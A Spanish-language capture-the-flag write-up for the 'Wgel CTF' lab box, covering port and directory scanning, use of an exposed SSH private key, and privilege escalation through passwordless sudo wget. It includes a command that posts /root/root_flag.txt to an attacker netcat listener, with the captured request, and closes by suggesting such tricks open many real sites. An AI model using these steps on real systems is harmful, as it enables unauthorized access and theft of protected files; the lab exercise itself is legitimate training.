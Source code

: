 # [Task 1] Wgel CTF 26/10/2019
Have fun with this easy box.
### Antes de nada scaneo
```
$ nmap -Pn -sT -p- -O -sC -sV -T5
```
<p>
Es scaner nos indica la existencia de dos puertos, 22 y 80. Abrimos navegador y nos vamos al servidor http. La conexión solo muestra la página de información de apache, pero si vemos el código fuente nos desvela la existencia del comentario:
<p>
 
```
!-- Jessie don't forget to udate the webiste -->
```

<p>
Pasamos a enumerar las páginas:
<p>
 
```
gobuster dir -u http://IP/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
```
<p>
Nos quedamos con el directorio sitemap y volvemos a enumerar.
<p>
 
 ```
gobuster dir -u http://IP/sitemap -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q 
 ```

<p>
Esta vez nos hemos encontrado con un directorio muy interesante  **/.ssh** Cuando nos conectamos a esa página vemos el fichero con la clave privada de ssh. Dado que sólo tenemos un usuario, probamos a conectarnos vía ssh al server. Antes de nada hay que cambiar los permisos al fichero.
 
 ```
 $ chmod 600 id_rsa
 $ ssh -i ./id_rsa jessie@ip
 ```
 Pasen, están en su casa :D
 La primera bandera a buscar es la de user_flag.txt, la cual está ubicada en .... home de ese user.
 
 La siguiente bandera es la de root. Lo primero de todo es saber lo que se puede hacer con ese usuario, 
 
 ```
 $ sudo -l -l
 
```
Podemos ejecutar /usr/bin/wget sin meter la clave. Pues adelante.
Para obtener el fichero root_flag.txt, abrimos un puerto en mi máguina local con un netcat y hacemos un post del fichero root a mi máquina.

```
En local
$ nc -lvnp 1234

En el server
sudo /usr/bin/wget --post-file=/root/root_flag.txt IP_Local:port

En local
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.183.40.
Ncat: Connection from 10.10.183.40:43980.
POST / HTTP/1.1
User-Agent: Wget/1.17.1 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Host: 10.8.13.25:1234
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

b1xxxxxxxxxxxxxxxxxxxxxxxxxxxxx3d

```

ya tenmeos la flag de root.
 
### #1	User flag<p>
### Solución:

```Answer format: 05****************************f6```


### #2	Root flag<p>
### Solucion: 

```Answer format: b1****************************3d```

Este tipo de cosas tan simples te ayudan a entrar en un sin fin de sitios. Pasa no tengas miedo, hasta la cocina. Enjoy.
